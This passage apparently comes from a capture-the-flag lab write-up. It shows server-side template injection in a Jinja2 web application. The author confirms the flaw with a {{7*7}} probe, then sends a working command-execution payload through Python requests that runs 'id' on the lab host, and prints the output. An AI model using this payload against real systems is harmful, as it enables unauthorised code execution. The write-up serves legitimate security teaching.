 ```

>>> resp = requests.post('http://10.10.11.131/', json={"siteurl": "{{7*7}}"})
>>> print(resp.text)

    <html>
    <head>
    <title>49 - Coming Soon</title>
    </head>
    <body style="background-image: url('/static/steampunk-3006650_1280.webp');background-size: 100%;background-repeat: no-repeat;"> 
    </body>
    </html>

```

The server saw `{{7*7}}` and interpreted the `7*7` as code it should evaluate, and returned 49.

#### POC

A more interesting POC would to try to run system commands. HackTricks has a nice page on SSTI, and in the [Jinja2 section](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) has this example to execute commands:

```

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}

```

I’ll modify it slightly to try to run the `id` command:

```

>>> payload = '''{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('id').read()}}{%endif%}{%endfor%}'''

```

This is finding a way to locate the `import` command and then get the `os` module without having access to just call `import`, which isn’t possible in SSTI.

It works:

```

>>> resp = requests.post('http://10.10.11.131/', json={"siteurl": payload})
>>> print(resp.text)

    <html>
    <head>
    <title>uid=33(www-data) gid=33(www-data) groups=33(www-data)
 - Coming Soon</title>
    </head>
    <body style="background-image: url('/static/steampunk-3006650_1280.webp');background-size: 100%;background-repeat: no-repeat;"> 
    </body>
    </html>

```

